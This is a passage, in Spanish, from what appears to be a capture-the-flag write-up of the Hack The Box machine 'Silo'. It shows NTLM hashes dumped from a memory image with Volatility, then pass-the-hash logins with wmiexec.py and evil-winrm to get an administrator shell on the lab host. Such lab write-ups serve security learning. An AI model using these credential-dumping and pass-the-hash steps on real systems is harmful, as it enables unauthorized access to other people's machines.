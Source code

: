 ```bash
❭ volatility -f SILO-20180105-221806.dmp --profile=Win2012R2x64 -y 0xffffc00000028000 -s 0xffffc00000619000 hashdump
Volatility Foundation Volatility Framework 2.6

Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::
```

Oko, tenemos hashes, ahora la parte más fácil

Podemos usar vaaaaaarias herramientas y hacer **PassTheHash** (e incluso intentar crackear los hashes, pero ya hemos visto en otros writeups como hacerlo, juguemos con los hashes), usaremos 2 opciones, `wmiexec` y `crackmapexec`:

#### PassTheHash - wmiexec

* [Youtube - S4vitar nos guia con el uso de **winexec**](https://www.youtube.com/watch?v=0rmG5EneRuQ&t=5779s).

Entonces, sencillamente tomamos la última parte del hash y escribimos:

```bash
❭ wmiexec.py -hashes :9e730375b7cbcebf74ae46481e07b0c7 Administrator@10.10.10.82
```

Esperamos un momento yy:

![131bash_passhash_winexec_admin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/silo/131bash_passhash_winexec_admin.png)

Perfectamente correcto e.e Ya estaríamos dentro como el usuario administrador y jugar con el sistema. Pero validemos si **Phineas** también nos permite entrar:

```bash
❭ wmiexec.py -hashes :8eacdd67b77749e65d3b3d5c110b0969 Phineas@10.10.10.82
Impacket v0.9.22.dev1+20200909.150738.15f3df26 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[-] rpc_s_access_denied
```

Pero no :(

### PassTheHash - evil-winrm

* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm).

Si recordamos, en nuestro escaneo vimos el puerto **5986**, el cual hace referencia al servicio de Windows [WinRM](https://docs.microsoft.com/en-us/windows/win32/winrm/installation-and-configuration-for-windows-remote-management). Entonces [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) nos ayuda a explotar este servicio para obtener una PowerShell ya sea con credenciales o como en nuestro caso, con un hash:

```bash
❭ evil-winrm -i 10.10.10.82 -u Administrator -H 9e730375b7cbcebf74ae46481e07b0c7
```
